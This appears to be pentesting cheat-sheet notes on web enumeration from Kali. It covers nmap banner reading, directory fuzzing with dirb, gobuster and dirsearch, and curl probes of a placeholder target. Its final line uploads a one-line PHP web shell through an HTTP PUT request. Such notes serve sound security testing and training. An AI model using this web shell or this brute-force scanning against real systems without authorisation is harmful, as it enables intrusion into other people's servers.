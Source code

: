 If an NMAP script returns back a banner, google it to see what app it may belong to.

```
Kali> nmap -v -sC -sV $TARGET
Nmap scan report for $TARGET
...
8080/tcp open   upnp    Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|       Basic realm=Windows Device Portal
```

The http banner in the example NMAP scan above is **Windows Device Portal**.


> ###### CMSHunter

[CMS-Hunter - GitHub](https://github.com/SecWiki/CMS-Hunter)

> ###### Directory Fuzzing

```
Kali> dirb http://$TARGET /usr/share/wordlists/dirb/big.txt -o dirb.txt
Kali> dirb http://$TARGET -r -o dirb-$TARGET.txt

Kali> gobuster -u http://$TARGET -w /usr/share/wordlists/dirb/big.txt -t 100
Kali> gobuster -u http://$TARGET -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e

# A little for loop so you can go do other stuff
Kali> for wordlist in $(ls);do gobuster -u http://$TARGET -w $wordlist -t 100;done

# dirsearch is fairly good
Kali> dirsearch -u http://$TARGET -e php
```

> ###### cURL

```
# Robots can give us a clue as to where to look next you may have to send a user agent
Kali> curl -s http://$TARGET/robots.txt

# Check all the methods
Kali> curl -vX OPTIONS $TARGET

# Get header
Kali> curl -i $TARGET

# Get everything
Kali> curl -i -L $TARGET

# Check for title and all links
Kali> curl $TARGET -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
Kali> curl $TARGET -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
Kali> curl -v -X OPTIONS http://$TARGET/
Kali> curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://$TARGET/test/shell.php
```
